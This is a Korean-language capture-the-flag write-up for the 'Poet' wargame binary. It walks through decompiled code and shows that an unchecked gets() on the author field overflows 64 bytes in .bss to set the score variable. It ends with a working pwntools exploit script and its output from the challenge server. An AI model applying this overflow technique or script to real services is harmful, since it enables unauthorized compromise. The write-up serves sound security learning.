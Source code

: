 # Poet

```c
✘ kimdong@ubuntu  ~/Wargame/200~250  file poet
poet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=65fc088e5fe2995da2cc64236196b75a60dc76f0, not stripped

kimdong@ubuntu  ~/Wargame/200~250  checksec poet
[*] '/home/kimdong/Wargame/200~250/poet'
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x400000)
```
이번 바이너리 파일은 64-bit이고, mitigation은 NX-bit가 설정되어있어서, shellcode를 입력하는 방식은 불가능할것으로 보인다.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  ./poet       

**********************************************************
*     우리는 2018년의 시인(poet)을 찾고 있습니다.        *
*  플래그상을 받고 싶다면 지금 한 줄의 시를 쓰세요!      *
**********************************************************

Enter :
> 1234
이 시의 저자는 누구입니까?
> 1234

+---------------------------------------------------------------------------+
시 내용
1234
점수:0

음...이 시로는 충분하지가 않습니다.
정확히 1,000,000 점을 획득해야만 됩니다.
다시 시도해주세요!
+---------------------------------------------------------------------------+
```
실행시켜보면, 문자열이 출력되고, 사용자의 입력값을 받고, 다시 문자열이 출력된후, 다시 사용자의 입력값을 검증하는 방식이다.<br>

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi

  setvbuf(_bss_start, 0LL, 2, 0LL);
  v3 = s;
  puts(s);
  while ( 1 )
  {
    get_poem(v3);
    get_author(v3);
    rate_poem(v3);
    if ( dword_6024E0 == 1000000 )
      break;
    v3 = asc_400D78;
    puts(asc_400D78);
  }
  reward(v3);
}
```
main문은 다음과 같이 생겼다.<br>
dword_6024E0이 1000000이면, while()문을 탈출하는 형식이다.<br>
reward함수는 다음과 같다.<br>

```c
void __noreturn reward()
{
  char s; // [rsp+0h] [rbp-90h]
  FILE *stream; // [rsp+88h] [rbp-8h]

  stream = fopen("./flag.txt", "r");
  fgets(&s, 128, stream);
  printf(format, &unk_6024A0, &s);
  exit(0);
}
```
flag를 띄워주는 함수로, main문에서 특정조건을 만족시켜야 할것으로 보인다.<br>

```c
__int64 get_poem()
{
  __int64 result; // rax

  printf("Enter :\n> ");
  result = gets(poem);
  dword_6024E0 = 0;
  return result;
}

__int64 get_author()
{
  printf(&byte_400C38);
  return gets(&unk_6024A0);
}

int rate_poem()
{
  char dest; // [rsp+0h] [rbp-410h]
  char *s1; // [rsp+408h] [rbp-8h]

  strcpy(&dest, poem);
  for ( s1 = strtok(&dest, " \n"); s1; s1 = strtok(0LL, " \n") )
  {
    if ( !strcmp(s1, "ESPR")
      || !strcmp(s1, "eat")
      || !strcmp(s1, "sleep")
      || !strcmp(s1, "pwn")
      || !strcmp(s1, "repeat")
      || !strcmp(s1, "CTF")
      || !strcmp(s1, "capture")
      || !strcmp(s1, "flag") )
    {
      dword_6024E0 += 100;
    }
  }
  return printf(asc_400BC0, poem, (unsigned int)dword_6024E0);
}

```
`rate_poem`에서 보면 `dword_6024E0`이 score로 보인다.<br>

`get_poem`에서 입력값을 result에 넣어주고, get_author에서 받은 입력값을 `&unk_6024A0`에 저장시켜준다.<br>

unk_6024A0는 bss영역으로 주소지는 다음과 같다 `.bss:00000000006024A0`<br>

최종적으로 score를 저장하는 `dword_6024E0`의 주소지는 `.bss:00000000006024E0`와 같다.<br>

특정 문자열을 입력해주면, 100점씩 추가되는데 그 방법으로는 백만점을 얻을수 없을것으로 보인다.<br>

따라서 bss영역을 덮어씌워서 `dword_6024E0`을 백만점으로 덮어씌우면 문제가 해결가능할것으로 보인다.<br>

두 영역사이의 거리는 '6024E0-6024A0'으로 64Byte이다.<br>

따라서, 64Byte의 더미값으로 채운뒤에,백만점을 넣으면 문제가 해결가능하다.<br>

처음 사용자 입력값에는 아무값이나 넣어주고, 뒤에 입력값에 위에서말한 payload를 넣어주면 될것같다.<br>

---
## Exploit Code

```c
from pwn import *
p = remote("ctf.j0n9hyun.xyz",3012)
payload1 = "dkanrjsk"
payload2 = "A"*64
payload2 += p64(1000000)

p.recvuntil("> ")
p.sendline(payload1)
p.recvuntil("> ")
p.sendline(payload2)
p.interactive()
```
```c
kimdong@ubuntu  ~/Wargame/200~250  python poet_ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3012: Done
[*] Switching to interactive mode

+---------------------------------------------------------------------------+
시 내용
dkanrjsk
점수:1000000

축하합니다!

시 내용
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

2018년 시인 상을 받았습니다!!

보상:
HackCTF{}

+---------------------------------------------------------------------------+

[*] Got EOF while reading in interactive
```
